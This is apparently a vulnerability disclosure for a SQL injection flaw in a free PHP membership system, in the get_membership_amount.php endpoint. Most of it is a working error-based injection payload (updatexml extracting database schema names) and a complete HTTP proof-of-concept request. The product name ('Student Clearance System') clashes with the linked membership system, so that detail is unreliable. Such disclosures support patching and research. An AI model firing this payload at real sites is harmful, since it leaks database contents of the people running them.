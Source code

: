 # SQLi-1

# Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code (It is an open source project from [https://codeastro.com/](https://codeastro.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: Tr0e
2. vendors: https://codeastro.com/membership-management-system-in-php-with-source-code/;
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /get_membership_amount.php

# Vulnerability Verification

[+] Payload:

```java
/get_membership_amount.php?membershipTypeId=-1+and+(updatexml(1,concat(0x7e,(select+schema_name+from+information_schema.schemata+limit+4,1),0x7e),1))--+
```

POC：

```js
GET /membership/get_membership_amount.php?membershipTypeId=-1+and+(updatexml(1,concat(0x7e,(select+schema_name+from+information_schema.schemata+limit+4,1),0x7e),1))--+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=04m7j5gs6vvmk9sh7s0fptra0o
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1


```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

​
![image-20240225145511-l0kkj0t](https://github.com/1testnew/CVE_Hunter/assets/139985256/7f5f6232-67ef-4a4e-b2b3-7848910e89f4)

‍

